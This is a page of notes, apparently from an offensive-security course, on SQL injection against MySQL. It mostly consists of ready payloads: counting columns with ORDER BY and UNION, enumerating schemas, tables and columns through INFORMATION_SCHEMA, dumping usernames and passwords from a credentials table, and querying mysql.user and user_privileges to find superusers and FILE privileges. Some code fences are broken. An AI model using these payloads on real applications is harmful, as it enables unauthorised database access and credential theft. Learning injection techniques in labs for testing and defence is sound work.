 #### Using ORDER BY

Sequentially inject ORDER BY n into the field until you get an error saying that the n column is unknown.  The number of columns is n - 1. (e.g., ```sql 'order by 1-- ```)

#### Using UNION

Similarly sequentiall add to a ```cn' UNION select 1,2,3,n -- -``` statement until you get the response.

### General attack using Union Injection
1. Find databases by getting SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA.
2. Get a list of the tables in the database of interest by using the TABLES table in the INFORMATION_SCHEMA database.  Payload: ``````sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
3. Get a list of the column names in the table of interest by accessing the COLUMNS table in the INFORMATION_SCHEMA database.  The COLUMN_NAME, TABLE_NAME, and TABLE_SCHEMA columns can be used for this.
4. Once you know the columns you're looking for use a UNION query to dump the data in the columns you want. ```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -

## Reading Files

### Privileges
In MySQl, the DB user must have FILE privileges to load a file's content into a table and then dump the data from that table and read files.

The following queries help us figure out who we are:
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```
A payload using this is:
```sql
cn' UNION SELECT 1, user(), 3, 4-- -

cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

super_priv from mysql.user will list superusers.

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

```

Payload to see what privileges user 'root' has:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- -
```
